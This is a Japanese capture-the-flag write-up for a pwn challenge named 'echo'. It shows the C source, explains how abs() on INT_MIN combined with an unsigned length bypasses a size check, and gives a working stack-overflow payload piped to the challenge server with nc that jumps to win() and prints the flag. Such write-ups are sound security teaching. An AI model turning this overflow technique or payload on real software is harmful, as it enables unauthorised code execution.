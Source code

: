 # echo:Warmup:129pts
A service for reachability check.  

[echo.tar.gz](echo.tar.gz)  

`nc 34.170.146.252 17360`  

# Solution
ソースと接続先が渡される。  
```bash
$ nc 34.170.146.252 17360
Size: 6
Data: Satoki
Received: Satoki
```
接続すると`Size`と`Data`を入力でき、`Received`として受け取ったデータが表示される。  
ソースは以下の通りであった。  
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

#define BUF_SIZE 0x100

/* Call this function! */
void win() {
  char *args[] = {"/bin/cat", "/flag.txt", NULL};
  execve(args[0], args, NULL);
  exit(1);
}

int get_size() {
  // Input size
  int size = 0;
  scanf("%d%*c", &size);

  // Validate size
  if ((size = abs(size)) > BUF_SIZE) {
    puts("[-] Invalid size");
    exit(1);
  }

  return size;
}

void get_data(char *buf, unsigned size) {
  unsigned i;
  char c;

  // Input data until newline
  for (i = 0; i < size; i++) {
    if (fread(&c, 1, 1, stdin) != 1) break;
    if (c == '\n') break;
    buf[i] = c;
  }
  buf[i] = '\0';
}

void echo() {
  int size;
  char buf[BUF_SIZE];

  // Input size
  printf("Size: ");
  size = get_size();

  // Input data
  printf("Data: ");
  get_data(buf, size);

  // Show data
  printf("Received: %s\n", buf);
}

int main() {
  setbuf(stdin, NULL);
  setbuf(stdout, NULL);
  echo();
  return 0;
}
```
`win`関数が見えるため、BOFでそちらに飛ばす問題だとわかる。  
`get_size`では入力の絶対値が`BUF_SIZE`(`0x100`)を超えている場合に終了してしまう。  
intであるので、最大値より大きい`2147483648`を入力するとオーバーフローにより`-2147483648`となる。  
これに`abs`関数を用いても、なぜかマイナスのままとなり`0x100`との比較を突破できる。  
さらに`get_data`の`size`は`unsigned`であるので、`2147483648`はそのままの数値として扱われる。  
つまりバッファ`0x100`を超えて書き込みができる。  
以下のように`win`へ飛ばせばよい。  
```bash
$ gdb -q ./echo
~~~
pwndbg> disass win
Dump of assembler code for function win:
   0x00000000004011f6 <+0>:     endbr64
   0x00000000004011fa <+4>:     push   rbp
   0x00000000004011fb <+5>:     mov    rbp,rsp
   0x00000000004011fe <+8>:     sub    rsp,0x20
~~~
$ echo -e '2147483648\nAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x11\x40\x00' | nc 34.170.146.252 17360
Size: Data: Received: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�@
Alpaca{s1Gn3d_4Nd_uNs1gn3d_s1zEs_c4n_cAu5e_s3ri0us_buGz}
```
flagが得られた。  

## Alpaca{s1Gn3d_4Nd_uNs1gn3d_s1zEs_c4n_cAu5e_s3ri0us_buGz}